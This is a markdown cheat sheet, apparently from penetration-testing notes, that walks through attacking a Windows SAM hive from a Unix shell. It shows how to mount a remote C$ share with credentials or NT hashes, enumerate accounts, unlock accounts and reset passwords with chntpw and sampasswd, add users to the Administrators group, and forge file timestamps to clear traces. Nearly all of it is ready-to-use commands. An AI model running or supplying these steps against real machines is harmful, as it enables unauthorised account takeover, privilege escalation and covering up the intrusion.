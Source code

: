 # Unix Shell

## 01 - Mount Remote SMB

TODO: Test it

Take note of the timestamps to clear traces ahead of time.

```
$ smbclient -U "[<domain>/]<username>%<password>" //<IP>/C$ "allinfo /Windows/System32/config/SAM"

$ smbclient -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> //<IP>/C$ "allinfo /Windows/System32/config/SAM"
```

Create a temporary folder for mounting an SMB share.

```
# mkdir /mnt/share
```

Mount SMB share with various authentication methods.

```
# mount -t cifs -o [domain=<domain>,]username=<username>,password=<password>,rw //<IP>/C$ /mnt/share

# smbmount //X.X.X.X/c$ /mnt/remote/ -o username=user,password=pass,rw

# mount -t cifs -o [domain=<domain>,]username=<username>,password=<nt_hash>,sec=ntlmssp,rw //<IP>/C$ /mnt/share

# mount -t cifs -o sec=krb5,vers=3.0,rw '//<IP>/C$' /mnt/share
```

## 02 - Enumerate Users from SAM HIVE File

```
# chntpw -l /mnt/share/Windows/System32/config/SAM

# sampasswd -l /mnt/share/Windows/System32/config/SAM
```

Enumerate groups.

```
# samusrgrp -l /mnt/share/Windows/System32/config/SAM
```

Enumerate users with groups.

```
# samusrgrp -L /mnt/share/Windows/System32/config/SAM
```

Check any of the usernames are locked.

```
# samunlock -l /mnt/share/Windows/System32/config/SAM
```

## 03 - Unlock Users from SAM HIVE File

```
# samunlock -U -u <username> /mnt/share/Windows/System32/config/SAM
```

## 04 - Reset Password from SAM HIVE File

Specify local username to reset password.

```
# chntpw -u <username> /mnt/share/Windows/System32/config/SAM

Remove password from current username

Select: [q] > 1

Add username with administrator privileges.

Select: [q] > 3

Save changes

Select: [q] > q

Hives that have changed:
 #   Name
 0   <SAM>
Write hive files? (y/n) [n] : y
 0 <SAM> - OK
```

Even `sampasswd` will work as well.

```
# sampasswd -r -u <username> /mnt/share/Windows/System32/config/SAM
```

## 05 - Add Users in the group from SAM HIVE File

```
# samusrgrp -a -u <username> -g <group_ID> /mnt/share/Windows/System32/config/SAM
```

Append user in the users group.

```
# samusrgrp -a -u <username> -g 0x221 /mnt/share/Windows/System32/config/SAM
```

Append user in the administrators group.

```
# samusrgrp -a -u <username> -g 0x220 /mnt/share/Windows/System32/config/SAM
```

## 06 - Clear traces from SAM HIVE File

```
$ smbclient -U "[<domain>/]<username>%<password>" //<IP>/C$ "utimes /Windows/System32/config/SAM [YY]YY:MM:DD-hh:mm:ss [YY]YY:MM:DD-hh:mm:ss [YY]YY:MM:DD-hh:mm:ss [YY]YY:MM:DD-hh:mm:ss"

smbclient -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> //<IP>/C$ "utimes /Windows/System32/config/SAM [YY]YY:MM:DD-hh:mm:ss [YY]YY:MM:DD-hh:mm:ss [YY]YY:MM:DD-hh:mm:ss [YY]YY:MM:DD-hh:mm:ss"
```

---
## References

- [[Live Removable Media]]